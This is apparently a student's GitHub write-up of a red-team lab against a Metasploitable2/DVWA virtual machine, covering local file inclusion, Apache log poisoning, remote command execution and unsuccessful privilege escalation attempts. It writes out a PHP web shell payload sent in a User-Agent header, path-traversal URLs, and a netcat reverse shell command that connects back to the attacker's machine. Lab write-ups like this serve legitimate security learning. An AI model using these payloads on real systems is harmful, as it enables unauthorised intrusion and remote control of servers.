 ```yaml
---

# Lab09 – Remote Command Execution (RCE) via Apache Log Poisoning

##  Description

In this lab, we exploited a **Local File Inclusion (LFI)** vulnerability to achieve **Remote Command Execution (RCE)** using **Apache log poisoning**. We established a **reverse shell** using Netcat and attempted multiple **privilege escalation** techniques via `SUID binaries`, `nmap`, `chsh`, and `cron jobs`. Although we didn’t achieve root access, we successfully gained deep system interaction and learned a lot about real-world privilege escalation obstacles.

---
```


##  Target System

- **VM**: Metasploitable2
- **Kernel**: Linux 2.6.24-16-server i686
- **IP Address**: `192.168.56.103`

---

## Exploitation Steps

### 1. Information Gathering

- Discovered LFI vulnerability in DVWA:

http://192.168.56.103/dvwa/vulnerabilities/fi/?page=.../etc/passwd

### 2. Apache Log Poisoning

- Injected payload via `User-Agent` using curl:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://192.168.56.103

Accessed poisoned log file using LFI:

http://192.168.56.103/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=id
```

### 3.  Remote Command Execution

Executed system commands through cmd= parameter:

http://192.168.56.103/html/shell.php?cmd=whoami


### 4.  Reverse Shell with Netcat

Listener on Kali:

nc -lvnp 4444

Triggered reverse shell via:

http://192.168.56.103/html/shell.php?cmd=nc -e /bin/bash 192.168.56.102 4444


### 5.  Shell Stabilization

Upgraded to interactive shell:

python -c 'import pty; pty.spawn("/bin/bash")'



---

## Privilege Escalation Attempts

Method	Result	Notes

SUID /usr/bin/chsh	-> Permission denied	No shell switch
SUID /usr/bin/nmap	-> No interactive mode	Only version 4.53
Cronjob abuse	-> No writable scripts	No exploitable path
find writable files	-> Not useful	No execution or cron abuse path


Despite creative attempts using pty, nmap, shell.php, and find, no working LPE path was identified without importing a kernel exploit binary.


---

## Screenshots

1. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-11%20at%2019.11.00.png)

2. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-11%20at%2023.08.05.png)

3. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-12%20at%2020.01.50.png)

4. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-12%20at%2020.14.53.png)

5. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-12%20at%2020.15.06.png)

6. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-12%20at%2020.37.21.png)

7. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-12%20at%2020.46.23.png)

8. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-13%20at%2001.25.26.png)

9. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-13%20at%2002.12.24.png)

10. ![](https://github.com/ATTezel/RedTeam-Labs/blob/main/Lab09/Screen%20Shot%202025-06-13%20at%2002.14.57.png)


---

## What I Learned

How LFI can lead to RCE via Apache log poisoning.

Creating and triggering a reverse shell from a PHP payload.

Common privilege escalation paths using SUID binaries, cron, and environment variables.

Realized that not every target leads to root without kernel-level exploits.

The importance of exploration, enumeration, and patience.



---

## Limitations

Could not achieve root due to:

No writable cron scripts.

No interactive nmap shell.

SUID binaries not vulnerable.




---

## Lab Status

[x] Gained RCE

[x] Achieved reverse shell

[x] Performed enumeration and privesc attempts

[ ] Root access (not achieved)
